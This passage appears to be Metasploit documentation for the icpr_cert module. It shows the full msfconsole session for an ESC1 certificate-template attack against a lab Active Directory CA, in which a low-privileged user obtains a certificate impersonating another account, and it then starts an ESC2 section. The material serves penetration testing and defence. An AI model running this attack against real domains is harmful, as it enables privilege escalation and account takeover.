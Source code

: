 The user must know:

* A vulnerable certificate template, in this case `ESC1-Test`.
* The SID of a target account, in this case `S-1-5-21-3402587289-1488798532-3618296993-1000`
* The UPN of a target account, in this case `smcintyre@msflab.local`.

See [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) section on ESC1 for more
information.

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser aliddle
SMBUser => aliddle
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA msflab-DC-CA
CA => msflab-DC-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Test
CERT_TEMPLATE => ESC1-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN smcintyre@msflab.local
ALT_UPN => smcintyre@msflab.local
msf6 auxiliary(admin/dcerpc/icpr_cert) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Requesting a certificate for user aliddle - alternate UPN: smcintyre@msflab.local - digest algorithm: SHA256 - template: ESC1-Test
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 192.168.159.10:445 - Certificate UPN: smcintyre@msflab.local
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20230608111432_default_192.168.159.10_windows.ad.cs_029062.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```

### Issue A Certificate With The *Any Purpose* EKU (AKA ESC2)
In this scenario, an authenticated user exploits a misconfiguration allowing them to issue a certificate from a template
that either contains the **Any Purpose** EKU or no EKUs at all.

The user must know:


[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16